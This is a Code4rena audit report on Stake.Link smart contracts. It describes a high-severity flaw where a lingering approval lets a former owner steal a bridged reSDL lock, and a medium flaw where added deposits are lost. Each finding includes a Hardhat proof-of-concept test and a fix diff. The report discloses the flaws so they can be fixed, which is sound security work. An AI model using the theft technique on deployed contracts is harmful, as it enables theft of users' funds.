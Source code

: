 # Stake.Link

**Date:** 22.12.2023-12.01.2024

**Platform:** Code4rena

**Position:** 4 of 53

# Findings summary

| Severity      | Count |
| :---          |  ---: |
| High          | 1 |
| Medium        | 1 |

# Table of Contents

| ID | Title |
| :--- | :--- |
| H-01 | [A user can steal an already transfered and bridged reSDL lock because of approval.](#h-01) |
| M-01 | [A user can lose funds in `sdlPoolSecondary` if tries to add more sdl tokens to a lock that has been queued to be completely withdrawn.](#m-01) |



# High Findings

## <a id="h-01"></a> [H-01] A user can steal an already transfered and bridged reSDL lock because of approval.

## Summary
The reSDL token approval is not deleted when the lock is bridged to an other chain

## Vulnerability Details
When a reSDL token is bridged to an other chain, the `handleOutgoingRESDL()` function is called to make the state changes into the `sdlPool` contract. The function executes the following:

```
    function handleOutgoingRESDL(
        address _sender,
        uint256 _lockId,
        address _sdlReceiver
    )
        external
        onlyCCIPController
        onlyLockOwner(_lockId, _sender)
        updateRewards(_sender)
        updateRewards(ccipController)
        returns (Lock memory)
    {
        Lock memory lock = locks[_lockId];

        delete locks[_lockId].amount;
        delete lockOwners[_lockId];
        balances[_sender] -= 1;

        uint256 totalAmount = lock.amount + lock.boostAmount;
        effectiveBalances[_sender] -= totalAmount;
        effectiveBalances[ccipController] += totalAmount;

        sdlToken.safeTransfer(_sdlReceiver, lock.amount);

        emit OutgoingRESDL(_sender, _lockId);

        return lock;
    }
```
As we can see, it deletes the lock.amount of the lockId, removes the ownership of the lock and decrements the lock balance of the account that is bridging the lock.
The approval that the user had before bridging the reSDL lock will remain there and he can get benefited from it by stealing the NFT.
Consider the following situation:
A user knows that there is a victim that is willing to pay the underlying value for a reSDL lock ownership transfer. What the malicious user can do is set approval to move his lockId in all supported chains to an alt address that he owns. Then, he trades the underlying value for the reSDL ownership and the lock is transfered to the victim/buyer. If the buyer keeps the lock in this chain nothing happens, but if he bridges any of the other supported chains, the malicious user can use the approval of his alt account to steal the reSDL lock.

#### Proof of Concept

<details>

It is written inside `resdl-token-bridge.test.ts` because it uses its setup
```
  it('PoC steal reSDL', async () => {
    let lockId = 2

    let thief = accounts[0]
    let victim = accounts[1]

    let thiefAccount2 = accounts[2]

    let ts = (await ethers.provider.getBlock(await ethers.provider.getBlockNumber())).timestamp

    // Thief approves an alt account that he controls to move his lock in the original chain
    await sdlPool.approve(thiefAccount2, lockId)

    assert.equal(await sdlPool.getApproved(2), thiefAccount2);

    // Thief bridges the lock to an other chain but the approval is not deleted
    await bridge.transferRESDL(77, victim, lockId, true, toEther(10), { value: toEther(10) })
    let lastRequestMsg = await onRamp.getLastRequestMessage()
    assert.deepEqual(
      ethers.utils.defaultAbiCoder
        .decode(
          ['address', 'uint256', 'uint256', 'uint256', 'uint64', 'uint64', 'uint64'],
          lastRequestMsg[1]
        )
        .map((d, i) => {
          if (i == 0) return d
          if (i > 1 && i < 4) return fromEther(d)
          return d.toNumber()
        }),
      [victim, lockId, 1000, 1000, ts, 365 * 86400, 0]
    )
    assert.deepEqual(
      lastRequestMsg[2].map((d) => [d.token, fromEther(d.amount)]),
      [[sdlToken.address, 1000]]
    )
    assert.equal(lastRequestMsg[3], wrappedNative.address)
    assert.equal(lastRequestMsg[4], '0x11')
    await expect(sdlPool.ownerOf(lockId)).to.be.revertedWith('InvalidLockId()')

    // The user that received the lock from bridging on the other chain decides to bridge the lock id
    // back to the original chain
    await offRamp
      .connect(signers[6])
      .executeSingleMessage(
        ethers.utils.formatBytes32String('messageId'),
        77,
        ethers.utils.defaultAbiCoder.encode(
          ['address', 'uint256', 'uint256', 'uint256', 'uint64', 'uint64', 'uint64'],
          [victim, lockId, 1000, 1000, ts, 365 * 86400, 0]
        ),
        sdlPoolCCIPController.address,
        [{ token: sdlToken.address, amount: toEther(25) }]
      )


    // Now the victim owns the reSDL lock on the original chain
    assert.equal(await sdlPool.ownerOf(2), victim)

    // However, this lockId has the approval that originally the thief set to his alt account and victim do not know that
    assert.equal(await sdlPool.getApproved(2), thiefAccount2);

    // Thief transfers back to his main account the reSDL via his alt account
    await sdlPool
      .connect(signers[2])
      .transferFrom(victim, thief, lockId)

    // Thief is now the owner of the reSDL
    assert.equal(await sdlPool.ownerOf(2), thief)
  })
```

</details>

## Impact
High, possibility to steal funds

## Tools Used
Manual review

## Recommendations
When bridging a lock between chains, the lock approval should be deleted.

```diff
     function handleOutgoingRESDL(
         address _sender,
         uint256 _lockId,
         address _sdlReceiver
     )
         external
         onlyCCIPController
         onlyLockOwner(_lockId, _sender)
         updateRewards(_sender)
         updateRewards(ccipController)
         returns (Lock memory)
     {
         Lock memory lock = locks[_lockId];
 
         delete locks[_lockId].amount;
         delete lockOwners[_lockId];
         balances[_sender] -= 1;
+        delete tokenApprovals[_lockId];

         uint256 totalAmount = lock.amount + lock.boostAmount;
         effectiveBalances[_sender] -= totalAmount;
         effectiveBalances[ccipController] += totalAmount;

         sdlToken.safeTransfer(_sdlReceiver, lock.amount);

         emit OutgoingRESDL(_sender, _lockId);

         return lock;
     }
```


## <a id="m-01"></a> [M-01] A user can lose funds in `sdlPoolSecondary` if tries to add more sdl tokens to a lock that has been queued to be completely withdrawn.

## Summary
In a secondary chain, if a user adds more sdl amount into a lock that he has queued to withdraw all the amount in the same index batch, he will lose the extra amount he deposited

## Vulnerability Details
The process to withdraw all the funds from a lock in a primary chain is just by calling withdraw with all the base amount of the lock. At this point the user will get immediately his funds back and the lock will be deleted, hence the owner will be zero address.

However, in a secondary chain, a user has to queue a withdraw of all the funds and wait for the keeper to send the update to the primary chain to execute the updates and then receive his sdl token back. In this period of time when the keeper does not send the update to the primary chain, if a user queues a withdraw of all the lock base amount, he will still own the lock because the withdraw has not been executed, just queued. So the user can still do whatever modification in his lock, for example, increase his lock base amount by calling `transferAndCall()` in the `sdlToken` passing the address of the `sdlSecondaryPool` as argument.

If this happens, when the keeper send the update to the primary chain and the user executes the updates for his lockId, he will lose this extra amount he deposited because it will execute the updates in order, and it will start with the withdraw of all the funds, will delete the ownership (make the zero address as the owner), and then increase the base amount of the lock that now owns the zero address.

And basically the lockId will be owned by the zero address with base amount as the extra sdl tokens that the user sent.

#### Proof of Concept

<details>

It is written inside `sdl-pool-secondary.test.ts` because it uses its setup

```
  it('PoC user will lose extra deposited tokens', async () => {

    let user = accounts[1]
    let initialUserSDLBalance = await sdlToken.balanceOf(user);

    // User creates a lock depositing some amount
    await sdlToken
      .connect(signers[1])
      .transferAndCall(
        sdlPool.address,
        toEther(100),
        ethers.utils.defaultAbiCoder.encode(['uint256', 'uint64'], [0, 0])
      )

    await sdlPool.handleOutgoingUpdate()
    await sdlPool.handleIncomingUpdate(1)
    await sdlPool.connect(signers[1]).executeQueuedOperations([])

    assert.equal(await sdlPool.ownerOf(1), user)
    
    // User queues a withdraw of all the amount from the lock
    await sdlPool.connect(signers[1]).withdraw(1, toEther(100))

    // User wants to deposit more tokens to the lock without the withdraw being updated and still being in the queue
    await sdlToken
      .connect(signers[1])
      .transferAndCall(
        sdlPool.address,
        toEther(1000),
        ethers.utils.defaultAbiCoder.encode(['uint256', 'uint64'], [1, 0])
      )

    await sdlPool.handleOutgoingUpdate()
    await sdlPool.handleIncomingUpdate(2)
    // When executing the updates, zero address will be the owner of his lock
    // and the amount he diposited the last time will be lost
    await sdlPool.connect(signers[1]).executeQueuedOperations([1])

    let finalUserSDLBalance = await sdlToken.balanceOf(user);
    let sdlLost = initialUserSDLBalance.sub(finalUserSDLBalance)

    console.log("The user has lost", sdlLost.toString(), "sdl tokens")

    // This staticall should revert because now the lock owner is the zero address
    await expect(sdlPool.ownerOf(1)).to.be.revertedWith('InvalidLockId()')
  })
```

Output:
```
  SDLPoolSecondary
The user has lost 1000000000000000000000 sdl tokens
    ✔ PoC user is not able to execute his lock updates (159ms)


  1 passing (3s)
```

</details>

## Impact
High, user will lose funds

## Tools Used
Manual review

## Recommendations
When trying to do any action on a lock in a secondary pool, check if the last update queued has not 0 as the base amount. Because if it is the case, that would mean that the user queued a withdraw of all funds and he will lose ownership of the lock at the next keeper update.

```diff
     function _queueLockUpdate(
         address _owner,
         uint256 _lockId,
         uint256 _amount,
         uint64 _lockingDuration
     ) internal onlyLockOwner(_lockId, _owner) {
         Lock memory lock = _getQueuedLockState(_lockId);
+        if(lock.amount == 0) revert();
         LockUpdate memory lockUpdate = LockUpdate(updateBatchIndex, _updateLock(lock, _amount, _lockingDuration));
         queuedLockUpdates[_lockId].push(lockUpdate);
         queuedRESDLSupplyChange +=
             int256(lockUpdate.lock.amount + lockUpdate.lock.boostAmount) -
             int256(lock.amount + lock.boostAmount);
         if (updateNeeded == 0) updateNeeded = 1;

         emit QueueUpdateLock(_owner, _lockId, lockUpdate.lock.amount, lockUpdate.lock.boostAmount, lockUpdate.lock.duration);
     }
```